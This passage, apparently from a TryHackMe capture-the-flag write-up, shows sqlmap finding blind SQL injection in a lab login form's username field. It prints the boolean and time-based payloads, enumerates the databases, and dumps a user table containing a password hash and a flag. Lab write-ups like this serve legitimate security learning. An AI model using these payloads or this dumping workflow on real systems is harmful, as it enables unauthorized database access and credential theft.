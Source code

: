 but still password is wrong...
let's try sqlmap and see what we gonna get...
```
[02:07:35] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 325 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=DesKel' AND 7770=7770 AND 'RCyk'='RCyk&password=asd&submit=submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=DesKel' AND (SELECT 4294 FROM (SELECT(SLEEP(5)))aNXd) AND 'IOHp'='IOHp&password=asd&submit=submit
---
[02:07:51] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[02:07:52] [INFO] fetched data logged to text files under '/home/mayomacam/.sqlmap/output/10.10.161.234'

[*] ending @ 02:07:52 /2021-01-08/
```

we got successful sqli...

let's retrive database
```
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

```
Let's dump first THM_f0und_m3...
```
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+
```
have 2 tables let's see first user..
```
Database: THM_f0und_m3
Table: user
[2 entries]
+------------------------------------+----------+
| password                           | username |
+------------------------------------+----------+
| 05f3672ba34409136aa71b8d00070d1b   | DesKel   |
| He is a nice guy, say hello for me | Skidy    |
+------------------------------------+----------+
```
and now table nothing_inside
```
[03:10:07] [INFO] retrieved: THM{---------------}             
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
```